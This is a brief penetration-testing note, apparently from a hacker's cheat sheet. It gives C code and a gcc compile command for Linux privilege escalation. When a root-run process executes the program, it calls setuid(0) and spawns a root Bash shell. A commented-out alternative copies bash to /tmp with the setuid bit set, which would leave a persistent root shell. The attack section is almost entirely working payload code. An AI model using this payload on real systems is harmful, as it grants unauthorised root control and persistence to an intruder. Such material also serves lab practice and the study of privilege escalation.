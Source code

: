 ```yaml
---
category: Uncategorized
tags: []
---
```

There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:

==privesc.c==

---
```bash - target
int main() {
 setuid(0);
 system("/bin/bash -p");
 #system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

}
```

```bash - target
gcc privesc.c -o privesc 
```
